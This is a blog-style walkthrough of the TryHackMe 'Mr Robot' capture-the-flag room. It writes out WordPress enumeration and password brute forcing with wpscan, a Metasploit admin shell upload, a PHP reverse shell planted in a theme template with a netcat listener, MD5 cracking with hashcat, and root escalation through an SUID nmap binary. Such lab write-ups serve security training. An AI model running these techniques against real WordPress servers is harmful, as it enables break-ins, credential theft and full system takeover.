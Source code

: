 ```yaml
---
title: "Mr Robot CTF walkthrough"
date: 2020-05-21
tags: [ctf, tryhackme, mrrobot, walkthrough]
header:
  image: "/images/tryhackme/MrRobotCTF/thm.png"
---
```


# Tryhackme - [Mr Robot CTF](https://tryhackme.com/room/mrrobot)

## Recon:

`nmap -A 10.10.227.36` shows that there are 997 filtered port and port 22, 80 and 443 are filtered. This means that there is some kind of firewall blocking the nmap scans

Lets open the website anyway. the http site give a browser based shell with only few commands. The https site has a self signed certificate, and it also does the same thing

![terminal]({{site.url}}{{site.baseurl}}/images/tryhackme/MrRobotCTF/1-terminal.png)

If we use `wakeup` command, then the port seems to be opened. 
Nothin interesting from the page source too

## File enumeration

lets run a gobuster on this.
`gobuster dir -u http://10.10.227.36/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`

There is a /images page but we dont have permissions to access it. THere are lot of such pages with 301 return codes. 
/readme and /license have some text but not helpful

/robots has the hint for first key. 
![robots]({{site.url}}{{site.baseurl}}/images/tryhackme/MrRobotCTF/2-robots.png)

/key-1-of-3.txt page has the first key

## wpscan

We also see wp-content and wp-login pages. So, we can run wpscan to find any wordpress vulnerabilities. I ran a wpscan using `wpscan --url 10.10.227.36`
It reveals /xlmrpc.php page, which says that this page accepts only POST requests
this can be used to enumerate usernames. 
However, I didn't find any valid users with wpscan
`wpscan --url http://10.10.197.250/ --enumerate u`

fsociety.dic is also found on /robots page. Going to /fsociety.dic lets us download the file, which is a list of words
Wordpress sites has permalinks to posts and pages and also user's pages. So, now that we have a word list that resembles usernames, we can check if any of them are valid. We can use `gobuster` to do this
`gobuster --url http://10.10.197.250/author/ -w fsociety.dic`

![users]({{site.url}}{{site.baseurl}}/images/tryhackme/MrRobotCTF/4-users.png)

The fsociety.dic also has some strings resembling a password. We can use wpscan again to check if any password matches
Since it was taking a long time and the .dic is huge, i sorted the file
`cat fsociety.dic | sort -u | uniq > sorted.dic`
Now start the password brute forcing again
`wpscan --url http://10.10.197.250/ --usernames 'elliot','Elliot' --passwords sorted.dic`
Now the estimated time is around 30 mins. Earlier it was 4 hrs.

This gives us a valid password: ER28-0652 for elliot

![password]({{site.url}}{{site.baseurl}}/images/tryhackme/MrRobotCTF/5-password.png)

After logging in, the user's dashboard is shown. The user doesnt have any posts or comments, but is an administrator. We can also see another user in the users tab. There are alos some images in media secion

## Reverse shell

We can install a vulnerable plugin or we can install a reverse shell for wordpress. We can also use metasploit to get a reverse shell using the module `exploit/unix/webapp/wp_admin_shell_upload`

```
msfconsole
use exploit/unix/webapp/wp_admin_shell_upload
set RHOSTS 10.10.197.250
set USERNAME elliot
set PASSWORD ER28-0652
run
```
But somehow, it fails saying that the target doesnt appear to be a wordpress site

We can also inject malicious code into the appearence template. [reference](https://www.hackingarticles.in/wordpress-reverse-shell/)
In the appearence seciton of admin dashboard, we change the 404 error template to a php reverse shell. I am using the reverse shell from [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)
Change the IP to your internal ip on tryhackme access page and the port to your netcat listener
`nc -lvnp 9001`

And now, going to the site 'http://10.10.197.250/wordpress/wp-content/themes/twentyfifteen/404.php' gives a reverse shell
The reverse shell is with user daemon. There is a second key key-2-of-3.txt and password.raw-md5 in /home/robot but can only be read by robot
So we need to escalate privileges

The password.raw-md5 file can be read by any user. And it gives a md5 hash
We can use hashcat to crack this md5
`hashcat -m 0 hash /usr/share/wordlists/rockyou.txt`
While it is running, we can also check at [hashkiller](https://hashes.com/decrypt/basic) if it can crack it.
Both have cracked it within few seconds 'c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz'
So, the password is *abcdefghijklmnopqrstuvwxyz*

Lets login to robot user with this password. It works and now we can read the second key

## Privilege escalation

We need to escalate privileges to get a root login and find the third key.
Lets check if robot has any sudo permissions using `sudo -l`
Looks like there are none. Lets check if there are any binaries with SUID set using `find / -perm 4000 2>/dev/null`

We can find that nmap in /usr/local/bin/nmap has SUID bit.
We can [exploit](https://gtfobins.github.io/gtfobins/nmap/) this.
```
TF=$(mktemp)
echo 'os.execute("/bin/bash")' > $TF
/usr/local/bin/nmap --script=$TF
```
This was not working. I've checked the nmap version and it is 3.81, which is quite old.
It also supports interactive mode using --interactive, which can be used to escalate privileges

```
nmap --interactive
!sh
```

We can use !bash instead, but somehow I am still robot when i use bash. But when i use sh, i am root.

![shell]({{site.url}}{{site.baseurl}}/images/tryhackme/MrRobotCTF/6-shell.png)

the third key is in /root folder



